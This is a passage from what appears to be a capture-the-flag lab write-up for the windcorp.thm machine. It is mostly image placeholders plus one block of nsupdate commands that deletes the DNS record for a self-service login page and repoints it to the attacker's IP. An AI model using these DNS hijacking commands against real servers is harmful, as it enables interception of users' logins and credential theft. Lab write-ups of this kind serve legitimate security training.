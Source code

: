 
![image30](../resources/794c640ac5df48768d20bd19cfd46fd3.png)


![image31](../resources/9b4dba2f0a964e67b1133e6a10bc510e.png)


![image32](../resources/e248971958ba43dab39e16c6bd72e409.png)

- The popup login page is on:
**selfservice.windcorp.thm**

```bash
nsupdate

```
```bash
> server 10.10.88.197  #DNS server's IP
> update delete selfservice.windcorp.thm A
> update add selfservice.windcorp.thm 5000 A 10.8.24.66  #Kali tun0 IP
> send
```

![image33](../resources/ec1dcd54ecfe4ac1a61b16fa46ae366e.png)
